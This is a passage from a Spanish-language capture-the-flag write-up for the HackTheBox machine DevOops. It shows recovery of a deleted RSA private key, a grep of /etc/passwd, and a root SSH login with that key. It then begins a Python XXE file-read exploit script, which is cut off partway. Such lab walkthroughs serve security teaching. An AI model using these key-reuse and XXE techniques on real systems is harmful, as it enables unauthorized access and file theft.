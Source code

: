```bash
-IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
-+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
-7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
-Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
-iD6fE+5/i/rYHs2Gfz5NlY39ecN5ixbAcM2tDrUo/PcFlfXQhrERxRXJQKPHdJP7
-VRFHfKaKuof+bEoEtgATuwKBgC3Ce3bnWEBJuvIjmt6u7EFKj8CgwfPRbxp/INRX
-S8Flzil7vCo6C1U8ORjnJVwHpw12pPHlHTFgXfUFjvGhAdCfY7XgOSV+5SwWkec6
-md/EqUtm84/VugTzNH5JS234dYAbrx498jQaTvV8UgtHJSxAZftL8UAJXmqOR3ie
-LWXpAoGADMbq4aFzQuUPldxr3thx0KRz9LJUJfrpADAUbxo8zVvbwt4gM2vsXwcz
-oAvexd1JRMkbC7YOgrzZ9iOxHP+mg/LLENmHimcyKCqaY3XzqXqk9lOhA3ymOcLw
-LS4O7JPRqVmgZzUUnDiAVuUHWuHGGXpWpz9EGau6dIbQaUUSOEE=
...SNIP...
```

Se ha eliminado una clave privada RSA puede que sea de algún usuario del sistema. Si la guardamos en un archivo y probamos usarla con los usuarios que tienen una bash asignada, que son los suguientes:

```bash
roosa@devoops:~/work/blogfeed$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```

Si probamos iniciar como el usuario git no funcionará pero si lo hacemos como root podremos conectarnos exitosamente.

```bash
❯ ssh -i id_rsa2 root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Fri Sep 23 09:46:30 2022
root@devoops:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Bonus

He hecho un script en python para explotar el XXE y le puedas pasar como argumento el archivo del sistema que quieras leer.

```python
import requests,sys

proxies={"http":"http://127.0.0.1:8080"}
url = "http://10.10.10.91:5000/upload"

def help():

	print ("[!] Ejemplo: ",sys.argv[0], "/etc/passwd")


def xxe(file):

	headers = {"Content-Type":"multipart/form-data; boundary=----WebKitFormBoundarye9DdoqEyGv2lrcPH"}

	data = """
```